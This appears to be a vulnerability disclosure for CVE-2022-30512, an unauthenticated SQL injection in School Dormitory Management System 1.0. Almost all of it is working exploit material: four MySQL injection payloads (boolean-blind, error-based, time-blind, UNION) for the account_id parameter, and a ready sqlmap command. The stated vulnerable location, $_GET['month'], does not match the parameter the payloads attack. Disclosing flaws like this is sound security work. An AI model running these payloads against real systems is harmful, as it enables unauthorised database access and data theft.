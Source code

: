 # CVE-2022-30512
School Dormitory Management System 1.0 - Unauthenticated SQL Injection

#### Exploit Title: School Dormitory Management System 1.0 - Unauthenticated SQL Injection
#### Date: 2022-05-25
#### CVE: CVE-2022-30512
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15319/school-dormitory-management-system-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----
[#] Vulnerability Location:
	`$_GET['month']` in `/dms/admin/accounts/payment_history.php:31`

>
    Parameter: account_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: account_id=2' AND 6703=6703 AND 'jmUS'='jmUS
>
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: account_id=2' AND (SELECT 7343 FROM(SELECT COUNT(*),CONCAT(0x71716b7671,(SELECT (ELT(7343=7343,1))),0x7170626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'htiO'='htiO
>
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: account_id=2' AND (SELECT 2865 FROM (SELECT(SLEEP(5)))hWAb) AND 'pbGX'='pbGX
>
    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: account_id=2' UNION ALL SELECT CONCAT(0x71716b7671,0x6458467273575152444c465a7a5276684f74756c7a754b6d506a6c437a5a516479574d5844694b78,0x7170626a71),NULL,NULL,NULL,NULL,NULL,NULL-- -

---

[#] Exploitation Using SQLMAP:
	`sqlmap -u "http://localhost/dms/admin/accounts/payment_history.php?account_id=2" --dbms=mysql`
